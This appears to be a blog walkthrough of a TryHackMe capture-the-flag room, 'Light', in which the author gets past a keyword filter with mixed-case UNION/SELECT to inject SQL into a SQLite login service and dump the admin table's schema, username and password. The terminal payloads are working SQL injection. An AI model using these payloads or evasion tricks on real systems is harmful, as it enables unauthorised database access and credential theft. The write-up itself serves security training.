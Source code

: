 ```yaml
---
title: Light - TryHackMe - Walkthrough
date: 2025-01-17 08:00:00 +0200
categories: [TryHackMe]
tags: [sql,database,injection,sqlinjection,obfuscation]
description: Exploit a database.
image:
  path: /assets/blog/Light/Room.png
  alt: The light bulb.
---
```


## Description

> I am working on a database application called Light! Would you like to try it out?  
> If so, the application is running on **port 1337**. You can connect to it using `nc 10.10.16.96 1337`  
> You can use the username `smokey` in order to get started.
> 
> **Note:** Please allow the service 2 - 3 minutes to fully start before connecting to it.

The challenge is rated as *easy* and can be found there -> <https://tryhackme.com/r/room/lightroom>.

## Exploitation

As the description said, we first need to connect to the light database service. Then I inputted the username, which was given in the description, we got a password, interesting.

![](/assets/blog/Light/Initial.png)

The next thing I did is testing for SQL injection because this is a database application. I tried double and single quotes.

```terminal
Please enter your username: "
Username not found.
Please enter your username: '
Error: unrecognized token: "''' LIMIT 30"
```



The single quote looks promising. So I next tired to get the first entry of the table.
```terminal
Please enter your username: admin' OR 1=1 --
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
```

We are restricted to don't use `--`, this shouldn't be a problem. I next tried to get the number of columns.

```terminal
Please enter your username: ' UNION SELECT 1 '
Ahh there is a word in there I don't like :(
```

Looks like our `SELECT` or `UNION` isn't accepted, that is why I next tried something like `sElEcT` and `SELEct` instead of `SELECT` and `UNION`. With that we finally get our desired output.

```terminal
Please enter your username: ' UNIon SELEct 1 '
Password: 1
```

Next we can check if we can retrieve a database version. I used this payload.

```terminal
Please enter your username: ' UNIon SELEct database() '
Error: no such function: database
```

Apparently this is not a MySQL/MariaDB database, this is why I next used the following query which is made for SQLite, as the challenge name already hints, this could be a 'Light' database.

```terminal
Please enter your username: ' UniON selEct sql FROm sqlite_master '
Password: CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
```

> **Why this query works**
>
> The query which retrieves the password from the table looks something like this:
> ```sql
> select password from admintable where username = '' LIMIT 30
> ```
> We input the SQL injection payload into the username where field. If we terminate the field with a single quote (`'`) and add a `UNION` and a `SELECT` statement, we can select data, after that we need to close the query that it won't error with a single quote. We can simply close the single quote and get the data of the `SELECT`, that way we don't need a termination string, this is just how `SQLite` handles the query. The empty string is interpreted as an [alias](https://www.w3schools.com/sql/sql_alias.asp).
> ```sql
> select password from admintable where username = '' union select <Anything> '' LIMIT 30
> ```
> Only if we add a comma between `<Anything>` and the string (`''`), we get the column error: `left and right of UNION do not have the same number of result columns`. This is because now we have two columns in this query.
> 
> **Note**: I tested these queries on my local machine for understanding the way these queries are processed.
{: .prompt-tip }

This gave me the whole table information, with that I next tried to extract the first entry of the table:

```terminal
Please enter your username: ' UniON selEct username FROm admintable '
Password: [REDACTEDAdminUserREDACTED]
```

This gave use the asked username, and we can also try to extract the first password. 

```terminal
Please enter your username: ' UniON selEct password FROm admintable '
Password: THM{THIS_IS_NOT_VALID_FLAG}
```

Lastly the question is to get the admin password. For that I simply appended a `where` statement to select the admin user.

```terminal
Please enter your username: ' UniON selEct password FROm admintable where username='TryHackMeAdmin' OR '
Password: DEMOPASSWORDREDACTED
```

With some tricks and some obfuscation of your payload you can easily solve this challenge.

I really enjoyed this challenge.